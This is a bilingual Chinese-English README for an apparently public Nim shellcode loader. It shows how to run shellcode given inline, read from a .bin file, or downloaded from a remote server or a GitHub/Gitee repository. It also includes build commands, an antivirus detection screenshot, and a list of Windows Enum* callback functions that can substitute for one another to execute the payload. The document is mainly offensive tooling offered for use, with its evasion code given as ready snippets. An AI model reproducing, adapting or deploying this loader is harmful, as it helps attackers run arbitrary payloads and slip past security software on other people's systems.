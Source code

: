 # nim_shellloader 

详见以下:
details:
# usage
```
loader.exe payload.bin
loader.exe  (yourshellcode)
loader.exe (http://xxxx/xxx)
```
put your url/bin/shellcode direct
后面直接跟shellcode内容 或者bin文件名 或者网址就行


①use shellcode:

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/1.gif)

②use bin file

使用bin文件加载shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/2.gif)

③ load the shellcode which on your server(remote load)
加载你服务器上的shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/3.gif)

Besides,You can load shellcode which on your reposiotory(gitee,github,etc.) like this

此外 你还可以把shellcode放在github，gitee的地方让loader去读

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/4.png)

Notice:You must remove '\x' on your shellcode

注意:你必须去除你shellcode中的 \x

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/5.png)


查杀情况


![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/6.png)

# 编译 compile

step1:   setup  require   安装所需的库
```
nimble install https://gitee.com/oagi/winim.git
nimble install https://gitee.com/oagi/nim-stew
```
step2: generate exe   生成exe
```
nim c --cpu:i386 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```
# Advise 建议
windows上编译容易出现玄学问题 可以用debian11交叉编译 不过记得要装mingw


It's easy to have problem if you compile it on Windows Platform.In my opion,you'd better compile it on Linux


如果出现 :```could not load:(libcrypto-1_1|libeay32).dll```
If Go wrong with :```could not load:(libcrypto-1_1|libeay32).dll```

考虑是运行的平台问题 因为编译的时候i386是x86的   所以出现这个问题就把i386换成amd64

I consider this is because of the wrong command(it didn't match target's platform ),so please change "i386" to "amd64",like following

```
nim c --cpu:amd64 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```

If it is compiled on windows, you don't need to add ```-d:mingw```

如果是windows上编译 则可以不用加```-d:mingw```
## 你可能会在运行这个加载器上出现问题 如果你出现
## It's possible that the shellcode_loader will go wrong with:
 could not load: (libcrypto-1_1-x64|libeay64).dll
 
你可能需要解决这些库

That means you maybe need to solve these dll
```
libcrypto-1_1-x64.dll

libenchant.dll

libpq.dll

libsasl.dll

libsodium.dll

libssh2.dll

libssl-1_1-x64.dll
```
You can find them under the floder which belong to PHP

这些库可以在windows下 php环境中找到

Also , you can download them on the Internet
也可以从网上下载


## 源码中的EnumSystemGeoID回调函数可以换成以下函数 等价
## The callback function named "EnumSystemGeoID" in my source can be replaced with following function
``` 
# Callback execution
    EnumSystemGeoID(GEOCLASS_NATION,0,cast[GEO_ENUMPROC](rPtr)) #①
    EnumChildWindows(cast[HWND](nil),cast[WNDENUMPROC](rPtr),cast[LPARAM](nil))#②
    EnumDateFormatsA(cast[DATEFMT_ENUMPROCA](rPtr) , LOCALE_SYSTEM_DEFAULT, cast[DWORD](0))#③
    EnumDesktopsW(GetProcessWindowStation(),cast[DESKTOPENUMPROCW](rPtr), cast[LPARAM](nil))#④
    EnumDesktopWindows(GetThreadDesktop(GetCurrentThreadId()),cast[WNDENUMPROC](rPtr), cast[LPARAM](nil))#⑤
    EnumSystemCodePagesA(cast[CODEPAGE_ENUMPROCA](rPtr) ,0)#⑥
    EnumSystemCodePagesW(cast[CODEPAGE_ENUMPROCW](rPtr), CP_INSTALLED)#⑦
    EnumSystemLanguageGroupsA(cast[LANGUAGEGROUP_ENUMPROCA](rPtr),LGRPID_SUPPORTED,0)#⑧
    EnumSystemLocalesA(cast[LOCALE_ENUMPROCA](rPtr) ,nil)#⑨
    EnumThreadWindows(0,csat[WNDENUMPROC](rPtr),0) #⑩
    EnumUILanguagesA(cast[UILANGUAGE_ENUMPROCA](rPtr), MUI_LANGUAGE_ID, 0)#11
    EnumWindows(cast[WNDENUMPROC](rPtr), cast[LPARAM](nil))#12
```
